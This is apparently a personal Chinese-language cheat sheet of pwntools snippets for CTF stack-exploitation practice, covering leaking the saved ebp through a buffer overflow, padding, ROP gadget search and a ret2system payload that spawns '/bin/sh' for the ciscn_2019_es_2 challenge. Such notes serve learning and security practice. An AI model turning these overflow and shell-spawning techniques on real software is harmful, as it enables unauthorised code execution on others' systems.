 ## scanf用sendline, read用send
## 溢出读取ebp值
sendline 发送时\n 会占一个字符 0x4大小发 `sendline 'a'*4` 会发5个字符引发问题。

举例
```c
char s[40]; // [ebp-28h]
read(0, s, 0x30u);


// 要输出 ebp 需要 0x20 个字节这时只要覆盖最后的 00 即可输出 ebp，用send不用sendline
payload1 = b'A' * (0x27) + b'B'
p.send(payload1)  # not sendline
p.recvuntil("B")
original_ebp = u32(p.recv(4))
```
### 填充指定大小
```py
'a'.ljust(268, ' ')
```
## 使用默认的libc

```
elf = ELF("./canary")
libc = elf.libc
```

## find leave asm

```python
leave_ret = elf.search(asm('leave')).__next__()

pop_rdi = ROP(elf).find_gadget(['pop rdi', 'ret'])[0]
pop_rsi = ROP(elf).find_gadget(['pop rsi'])[0]
print(hex(pop_rdi))
```


# Stack

## ret2system

```sh
# ciscn_2019_es_2
elf.plt['system'] + p32(0) + binsh_addr  # 是地址不是 "/bin/sh" 字符
payload =p32(0) + p32(elf.plt['system']) + p32(0) + p32(stdin_addr+0x10) + b'/bin/sh\x00'
payload = payload.ljust(0x28, '\x00')
```